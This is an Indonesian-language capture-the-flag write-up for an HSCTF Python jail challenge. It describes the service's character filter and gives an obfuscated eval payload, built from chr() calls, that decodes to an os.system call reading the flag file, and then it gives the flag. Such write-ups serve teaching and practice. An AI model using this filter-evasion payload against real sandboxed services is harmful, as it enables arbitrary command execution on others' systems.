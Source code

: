 ## Diketahui
Koneksi python jail dengan koneksi `nc paas.hsctf.com 1337`

Setelah itu coba inputkan karakter namun terdapat filter diantaranya
> `'`, `"`, `_`, `[`, `]`, `.`

Namun disini terdapat fungsi `eval` yang tidak dilakukan filter, operator `+`, dan juga `()`

## Solusi
Bypass dengan cara menggunakan modul `__import__` untuk memanggil `os system` dan mendapatkan flagnya, namun payload tersebut perlu dirubah ke unicode code / ord dan dimasukkan kedalam fungsi eval

> eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(39)+chr(41))

Flag = flag{vuln3r4b1l17y_45_4_53rv1c3}